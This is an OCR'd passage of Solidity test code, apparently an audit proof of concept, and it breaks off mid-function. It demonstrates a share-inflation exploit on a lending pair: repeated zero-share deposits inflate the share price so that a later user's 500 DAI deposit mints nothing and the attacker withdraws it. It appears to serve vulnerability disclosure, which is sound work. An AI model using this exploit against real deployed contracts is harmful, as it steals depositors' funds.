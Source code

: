 ```solidity

        aspTKN.approve(address(pair), 10_000e18);


        // First deposit 1k to the lending asset vault
        _lendingAssetVault.deposit(1_000e18, attacker);

        uint256 attackerBalanceBefore = DAI.balanceOf(attacker);

        pair.deposit(1e18, attacker);

        pair.borrowAsset(0.05e18, 1e18, attacker);

        vm.warp(block.timestamp + 1);

        pair.repayAsset(pair.userBorrowShares(attacker), attacker);

        uint256 amountOut = pair.previewRedeem(pair.balanceOf(attacker));

        pair.withdraw(amountOut - 2, attacker, attacker);
        console.log("amt is %e", pair.previewRedeem(pair.balanceOf(attacker)));
        console.log("balance is %e", pair.balanceOf(attacker));

        for (uint256 i = 0; i < 70; i++) {
            console.log("totalShares: %e", _totalShares());
            console.log("totalAssets: %e\n", _totalAssets());

            // Deposits the maximum amount of assets to only receive 0 shares back
            // This inflates the value of the single share since totalAssets increases exponentially
            pair.deposit(_totalAssets() - 1, attacker);
        }

        address innocentUser = makeAddr("innocentUser");
        uint256 userDeposit = 500e18;
        deal(address(DAI), innocentUser, userDeposit);

        vm.startPrank(innocentUser);
        DAI.approve(address(pair), 500e18);
        uint256 sharesMinted = pair.deposit(500e18, innocentUser);

        assertEq(sharesMinted, 0);

        vm.startPrank(attacker);

        // The attacker can now redeem their shares for a large amount of assets
        uint256 redeemableAmount = pair.previewRedeem(pair.balanceOf(attacker));
        pair.withdraw(redeemableAmount, attacker, attacker);

        uint256 attackerBalanceAfter = DAI.balanceOf(attacker);

        // Attacker PnL == User Loss
        uint256 attackerProfit = attackerBalanceAfter - attackerBalanceBefore;
        assertEq(attackerProfit, userDeposit);

    }

    function _totalShares() internal view returns(uint256) {
        return pair.totalSupply();
    }
    function _totalAssets() internal view returns(uint256) {
        // frax
        (uint128 amount, uint128 shares) = pair.totalAsset();
```